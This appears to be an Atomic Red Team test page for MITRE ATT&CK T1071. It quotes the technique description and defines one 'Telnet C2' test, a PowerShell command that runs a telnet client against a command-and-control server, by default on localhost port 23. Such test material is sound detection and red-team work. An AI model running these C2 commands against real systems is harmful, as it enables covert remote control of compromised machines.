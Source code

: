 # T1071 - Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1071)
<blockquote>Adversaries may communicate using OSI application layer protocols to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server. 

Adversaries may utilize many different protocols, including those used for web browsing, transferring files, electronic mail, or DNS. For connections that occur internally within an enclave (such as those between a proxy or pivot node and other nodes), commonly used protocols are SMB, SSH, or RDP. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Telnet C2](#atomic-test-1---telnet-c2)


<br/>

## Atomic Test #1 - Telnet C2
An adversary may establish telnet communication from compromised endpoint to command and control (C2) server to be able to operate more attack on objectives.

**Supported Platforms:** Windows


**auto_generated_guid:** 3b0df731-030c-4768-b492-2a3216d90e53





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | C2 server IP or URL | url | 127.0.0.1|
| client_path | Client agent path | url | PathToAtomicsFolder&#92;T1071&#92;bin&#92;telnet_client.exe|
| server_port | C2 server port | Integer | 23|


#### Attack Commands: Run with `powershell`! 


```powershell
#{client_path} #{server_ip} --port #{server_port}
```




#### Dependencies:  Run with `powershell`!
##### Description: Command and Control (C2) server cam be established by running PathToAtomicsFolder\T1071\bin\telnet_server.exe on specified server with specified IP that must be reachable by client (telnet_client.exe)
##### Check Prereq Commands:
```powershell
$connection = Test-NetConnection -ComputerName #{server_ip} -Port #{server_port}
if ($connection.TcpTestSucceeded) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host "Setup C2 server manually"
```




<br/>
